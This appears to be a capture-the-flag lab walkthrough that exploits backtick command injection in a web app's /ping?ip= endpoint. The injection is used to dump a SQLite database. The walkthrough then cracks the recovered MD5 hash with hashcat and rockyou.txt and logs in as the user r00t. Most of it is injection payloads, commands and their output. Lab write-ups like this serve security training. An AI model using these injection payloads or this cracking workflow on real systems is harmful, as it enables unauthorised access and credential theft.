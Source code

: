 > function getAPIURL() {return `${window.location.hostname}:8081`}

> const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`

> form.action = `http://${getAPIURL()}/auth`;

for the authentication it pings the given ip on /ping?ip=  

lets inject some commands with \` charachter.

> http://10.10.105.146:8081/ping?ip=`id`

```
ping: groups=1002(www): Temporary failure in name resolution 
```

Cool! Now let the fun begin!

> URL : http://10.10.105.146:8081/ping?ip=`ls`

found the database name; utech.db.sqlite

> URL : http://10.10.105.146:8081/ping?ip=`cat utech.db.sqlite`

```
	) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84
```

f357a0c52799563c7c7b76c1e7543a32 is the r00t's hashed password

let's crack it using hashcat ( Hint: *******.txt means the world famous rockyou.txt )

> hashcat -m 0 --force f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt

note: I don't have Intel OpenCL device on my vm. so I use --force mode

```
	f357a0c52799563c7c7b76c1e7543a32:n100906         
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: f357a0c52799563c7c7b76c1e7543a32
.
.
.
```

#### Getting shell

So we have r00t user's credentials : r00t:n100906

let's give it to the /auth on partners.html login page.

after login: 
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```
